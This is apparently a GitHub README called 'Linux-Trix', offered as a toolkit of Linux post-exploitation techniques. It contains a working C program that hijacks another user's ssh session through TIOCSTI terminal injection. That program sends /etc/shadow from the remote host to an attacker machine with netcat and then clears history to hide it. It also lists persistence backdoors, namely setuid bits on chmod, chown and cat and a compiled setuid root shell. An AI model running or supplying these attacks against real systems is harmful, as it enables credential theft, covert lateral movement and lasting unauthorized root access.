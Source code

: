 # Linux-Trix
An assortment of techniques that can be used to exploit Linux.  Most of these assume that you have or can attain root privileges on the host.  You will need to change IP addresses and other references in the examples to fit your environment.

## Stuffing commands into an existing ssh session

**This example assumes the following**<br />
* The attacking Linux machine (A) is 192.168.1.7
* The victim Linux machine (B) is 192.168.1.5
* The remote host (C) that a user on (B) has an ssh session open to is 192.168.10.10

**You have aquired root on a target (B), check for active ssh client sessions to other remote hosts**<br />
`ps -ef | grep ssh | grep @`

Example output, you see user "bill" on "pts/1" connected to a remote host (C) as "root".<br />
`bill     18953 18855  0 08:42 pts/1    00:00:00 ssh root@192.168.10.10`

Compile the following C code on (B) as `ptshijack.c` to get `/etc/shadow` from (C).<br />
```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>

// gcc ptshijack.c -o ptshijack

int main() {
    int fd = open("/dev/pts/1", O_RDWR);
    if (fd < 0) {
        perror("open");
        return -1;
    }
    // your commands to execute go here.
    char *x = "(cat /etc/shadow | nc 192.168.1.7 4444) &\nhistory -c\nclear\n";
    while (*x != 0) {
        int ret = ioctl(fd, TIOCSTI, x);
        if (ret == -1) {
            perror("ioctl()");
        }
        x++;
    }
    return 0;
}
```

**Start netcat on (A) to receive** `/etc/shadow` **from (C)**<br />
```nc -nlvp 4444```

**Execute** `ptshijack` **on (B) to send** `/etc/shadow` **from (C) to (A)**<br />
SIGINT (ctrl-c) netcat on (A) to terminate the background process on (C)<br />

## Persistence with setuid

Once you have root on a system leave these behind to exploit later:<br >
* `chmod u+s /usr/bin/chmod` and `chmod u+s /usr/bin/chown`, will allow you to create files as an ordinary user that execute as root.
* `chmod u+s /usr/bin/cat` will allow you to view `/etc/shadow` as an ordinary user.
* Compile the following C program and setuid as root.<br />
```c
// gcc -o setuid-shell setuid-shell.c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <grp.h>

int main(int argc, char **argv)
{
   initgroups("root", 0);
   setgid(0);
   setuid(0);
   execve("/bin/bash", NULL, NULL);

   return 0;
}
```
setuid as root `chown root:root setuid-shell` then `chmod u+s setuid-shell`<br />
Now execute `setuid-shell` and see that you are root by using the `id` command.
